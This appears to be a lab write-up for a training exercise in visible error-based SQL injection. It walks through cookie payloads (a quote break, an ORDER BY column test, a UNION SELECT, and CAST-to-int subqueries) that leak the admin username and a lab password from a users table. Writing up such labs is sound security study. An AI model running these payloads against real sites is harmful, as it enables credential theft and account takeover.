 # Lab: Visible error-based SQL injection

End Goal : Exploit SQL injection to retrieve the admin user's credentials from the users table and log in as admin

analysis :

SELECT trackingId From trackingIdTable where trackingId='flA4hSEBCMYQ4lQP';

Cookie: TrackingId=flA4hSEBCMYQ4lQP' -> 500 Internal Server Error -> `Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'flA4hSEBCMYQ4lQP''. Expected  char`

number of columns  = 1

flA4hSEBCMYQ4lQP'+order+by+2+-- -> 500 internal server error

The datatype of that single column is compatible with strings since
'+UNION+SELECT+'A'+-- -> returns 200 ok

'and+1=cast((select+username+FROM+users+limit+1+)+as+int)--; -> leaks the username -> `administrator`

'and+1=cast((select+password+FROM+users+limit+1+)+as+int)--; -> leaks the password ->`8q1v30j7af25tsduis0f`
